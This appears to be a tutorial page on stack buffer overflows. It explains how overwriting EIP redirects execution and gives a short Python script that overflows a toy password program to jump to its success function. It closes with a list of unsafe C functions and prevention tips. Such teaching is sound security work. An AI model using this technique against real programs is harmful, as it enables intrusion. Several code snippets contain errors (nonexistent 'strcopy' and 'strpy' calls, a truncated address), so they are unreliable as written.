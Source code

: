 ```yaml
---
description: Explanation of address manipulation
---
```


# Buffer Overflow

## How it Works

Buffer overflows are vulnerabilities within programs that can lead to RCE and crashing of whatever program we are running.&#x20;

The term **buffer** is used to refer to any area in memory where more than one piece of data is stored. **Overflow** is when we try to fill more data than the buffer can handle. For example, if we allocate 40 bytes of memory to store 10 integers, with 4 bytes per integer, and we send 11 integers, whatever was in the 4 byte slot after the 10th slot of memory would be overwritten as the 11th integer.

Sometimes, the program would crash totally if given too much to process with a **segmentation fault**.&#x20;

We can analyse this code snippet here:

```c
int main(int argc, char *argv[]){
    argv[1] = (char*)"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char buffer[10];
    strcopy(buffer, argv[1], sizeof(buffer));
    return 0;
}
```

The `buffer` variable is an array that can store up to 10 characters, however we have overflown that with our `strcopy` function because there are more than 10 characters being loaded into it.

Within the stack, this is what the program would store normally:

<figure><img src="../../.gitbook/assets/image (91) (2).png" alt=""><figcaption></figcaption></figure>

Should we overflow the buffer variable, this would **overwrite the EBP and EIP**. The return address of the function thus changes.

<figure><img src="../../.gitbook/assets/image (14) (3) (2).png" alt=""><figcaption></figcaption></figure>

So when the program returns from the function, and the **epilogue** of the function tries to set the return address, it would set it as the string of 'A' instead. Thus, this crashes the program as it cannot return to normal execution flow.&#x20;

### Exploitation

We can analyse another snippet of code to see how **we can manipulate the EIP to return to another address.** Suppose for this case there are no security measures in place.

```cpp
#include <iostream>
#include <cstring>

int bf_overflow(char *str){
    char buffer[10];
    strpy(buffer, str);
    return 0;
}

int good_password(){
    printf("Valid password supplied\n");
}

int main(int argc, char *argv[]){
    int password = 0;
    bf_overflow(argv[1]);
    if (password == 1){
        good_password();
    }
    else {
    printf("Invalid Password\n");
    }
    printf("Quitting\n");
    return 0;
}
```

This bit of code here has a function that would otherwise not be able to be exploited. However, it seems to take an input, seeing as it passes arguments to the function.&#x20;

The buffer in this case is 10 characters, and we first need to find the exact number of characters used to **overwrite the EIP**.&#x20;

First we would need to find the number of characters needed to **crash the program**. For this program, when tested, should take 26 characters before crashing. This means that we need **22 garbage characters to overflow the buffer, and the next 4 would be the EIP itself**.

When we decompile the binary for this program, we get something like this:

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

So the `good_password()` function is at `0x00401548`. This means that our payload would be 22 characters and the address of the function appended at the back.

We can write a basic script to automate this.

```python
import sys
import os
payload = "\x41" * 22
payload += "\x48\x15\x40" # take note of endianness! reverse addresses if needed
# most of the time we do not include null bytes (\x00) which can cause corruption of memory
command = "goodpwd.exe %s" %(payload)

os.system(command)
```

When executed, this would overflow the buffer, and print the good password output.&#x20;

## Vulnerable Functions

In C, there are a lot of functions that are vulnerable to buffer overflows. The common occurrence between these functions is that **they do not have input validation or length verification**. Anyone can key in an absurdly long input and force the program to process it, which would allow for BOF to take place.

For example, we can compare the `fgets()` and `gets()` function in C. Both of which take user input and do something with it. Here's some documentation for the functions:

```c
char *fgets(char *str, int n, FILE *stream)
char *gets(char *str)
```

The `fgets()` function takes one `int n` variable, which represents the **length of the input it receives**. `gets()` on the other hand, simply takes a string in without length validation. Because one checks for length, it is **more secure** than the other. `gets()` is rather notorious for buffer overflow exploits, whereas `fgets()` is more secure **but not invulnerable**. It is still exploitable if it is used incorrectly!

Here are a list of functions that I look out for when decompiling binaries to view the code:

```
strcpy
strcat
gets
fgets
scanf
fscanf
vsprintf
printf
memcpy
```

If the length of an input is not validated properly using these functions, it would indicate that it could be vulnerable to BOF as we are able to overflow something and exploit the program.&#x20;

Apart from these functions, when looking out for BOF, we should take note of any **user-controlled input that is not sanitised and passed to a program**. In general, if we see something that isn't checked for length, it could be vulnerable, and **it is not limited to these few functions**.&#x20;

In general, to avoid BOF:

1. Check user input, make sure that the length is validated. If we accept 50 characters, then make sure the length is 50.
2. If user input is passed anywhere, ensure that there are checks in the length of input.
3. Only allow alphanumeric characters. Attackers can sometimes exploit the fact that **only length is being validated and not size**. BOF can (technically) happen using unicode characters, which contain up to 4 bytes per character.&#x20;
